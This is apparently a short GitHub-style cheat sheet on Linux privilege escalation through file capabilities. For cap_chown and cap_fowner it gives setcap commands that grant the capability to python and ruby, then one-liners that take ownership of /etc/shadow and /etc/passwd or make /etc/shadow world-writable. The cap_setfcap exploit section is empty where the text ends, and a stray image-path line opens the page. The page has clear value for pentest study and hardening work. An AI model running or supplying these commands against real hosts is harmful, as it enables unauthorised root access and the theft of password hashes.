 ## cap_chown

#### Misconfiguring

**python**

```bash
setcap cap_chown+ep /usr/bin/python3.9
```

**ruby**

```bash
setcap cap_chown+ep /usr/bin/ruby
```

#### Exploiting

**python**
- give `[ug]id` : armour
```bash
python -c 'import os;os.chown("/etc/shadow",1001,1001)'
```

```bash
python -c 'import os;os.chown("/etc/passwd",1001,1001)'
```

**ruby**

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```

## cap_fowner

#### Misconfiguring

```bash
setcap cap_fowner+ep /usr/bin/python3.9
```

#### Exploiting

```bash
python -c 'import os;os.chmod("/etc/shadow",0o666)'
```


## cap_setfcap

#### Misconfiguring

```bash
setcap cap_setfcap+ep /usr/bin/python3.9
```

#### Exploiting
